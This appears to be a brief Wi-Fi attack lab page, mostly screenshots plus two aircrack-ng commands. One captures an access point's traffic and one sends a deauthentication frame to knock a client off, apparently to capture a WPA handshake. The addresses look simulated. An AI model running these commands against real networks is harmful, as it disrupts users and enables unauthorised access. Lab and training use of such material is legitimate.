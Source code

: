 
![image](https://github.com/user-attachments/assets/7307968d-00dd-423a-a945-b0979d771236)


<br>

![image](https://github.com/user-attachments/assets/04d2b174-777b-4b4f-94b5-77defd860df4)

<br>


![image](https://github.com/user-attachments/assets/d1550273-8ff2-4e3c-857f-4bc507b46330)


<br>

<p>First Terminal</p>
<pre><code>sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2</code></pre>

<br>

<p>Second Terminal</p>
<pre><code>sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2</code></pre>


![image](https://github.com/user-attachments/assets/c7bc0365-2c55-459b-aede-d50706f4a8ea)
